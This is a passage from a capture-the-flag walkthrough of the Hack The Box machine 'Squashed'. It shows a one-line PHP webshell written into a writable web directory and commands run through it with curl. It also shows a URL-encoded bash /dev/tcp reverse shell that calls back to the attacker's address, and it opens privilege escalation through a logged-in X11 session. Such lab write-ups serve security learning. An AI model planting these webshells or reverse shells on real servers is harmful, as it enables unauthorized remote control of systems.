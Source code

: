 The .htaccess file provides a clue that the backend web server might be PHP. 

```bash
cat html/.htaccess
AddType application/x-httpd-php .htm .html
```

### Reverse Shell

Since our rosstemp user has write permissions to the directory, we can drop the following simple php webshell as shell.php.

```php
<?php system($_REQUEST['cmd']);?>
```

Curling the web server from the command line

```bash
echo '<?php system($_REQUEST["cmd"]);?>' >> shell.php

curl http://10.129.50.186/shell.php?cmd=whoami
alex
```

Let's generate a reverse shell. We can use a Bash TCP reverse shell while URL-encoding the key characters, specifically the `&` and spaces as that would break our command in the command line as well as web server parsing it as query parameters. 

```bash
curl 'http://10.129.50.186/shell.php?cmd=bash+-c+"bash+-i+>%26/dev/tcp/10.10.14.2/5555+0>%261"'
```

![](/assets/img/posts/htb-squashed/revshell.png)

With the reverse shell, let's upgrade our shell[^upgrade-reverse-shell] and perform some lateral or privilege escalation. 

## Privilege Escalation

**The privilege escalation vector was not intuitive to me and exposed me to new concepts that required me to take some hints.**

```bash
alex@squashed:/home/alex$ w
 20:16:14 up  1:29,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               18:46    1:29m  4.46s  0.02s /usr/libexec/gnome-session-binary --systemd --session=gnome
```
Ross is currently authenticated to the system in the `:0` display. The presence of .Xauthority or .xsession files might indicate that an X session display is configured where a user is currently logged in. 


[^htb-link]: <https://www.hackthebox.com/machines/squashed>
[^upgrade-reverse-shell]: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>
